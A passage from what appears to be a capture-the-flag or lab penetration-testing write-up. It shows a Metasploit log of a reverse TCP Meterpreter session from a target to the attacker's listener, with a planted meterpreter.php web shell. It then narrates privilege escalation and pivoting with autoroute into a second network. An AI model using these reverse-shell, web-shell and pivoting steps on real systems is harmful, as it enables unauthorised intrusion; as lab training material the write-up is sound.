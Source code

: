 In our terminal we can observe that the Meterpreter session is open now:


```bash

[*] Started reverse TCP handler on 10.13.37.10:53 
[*] Meterpreter session 1 opened (10.13.37.10:53 -> 172.16.37.234:47464) at 2021-02-16 11:56:35 -0500

meterpreter > ls
Listing: /var/www/html
======================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100644/rw-r--r--  11321  fil   2019-03-28 03:40:36 -0400  index.html
100644/rw-r--r--  34276  fil   2021-02-16 11:54:34 -0500  meterpreter.php
40777/rwxrwxrwx   4096   dir   2019-03-28 03:55:17 -0400  xyz

meterpreter > 

```

##### Basic privilege escalation

<br/>
By viewing /etc/passwd we can see that our ftpuser is already a priviliged (uid: 0, which is effectively root):

<details><summary> <b>Meterpreter</b> </summary></details>
<br/>

##### Pivoting to other networks

Alright. Let's leverage the compromised 172.16.37.234 machine to create a route to the second network and compromise the remaining 172.16.37.220 machine.

First we want to run an nmap inside 172.16.37.234. I got logged out,so to do it we need to run the following.


<details><summary> <b>Initial Nmap scan from our compromised machine.</b> </summary></details>
<br/>

As we can see an SSH service is running on 172.16.50.222. Let's background our current Meterpreter shell by pressing ctrl + z and then run the autoroute functionality once the meterpreter> prompt appears.
[Autoroute routes  our  exploitation  attempts  through  the  first  compromised  machine  andenables us to access the remaining machine,through the second network (172.16.50.0/24)]
So, let's pivot from here focussing on the SSH service.
<br/>
<details><summary> <b>Autoroute and final exploit.</b> </summary></details>
<br/>

And that's it, we got the last flag!
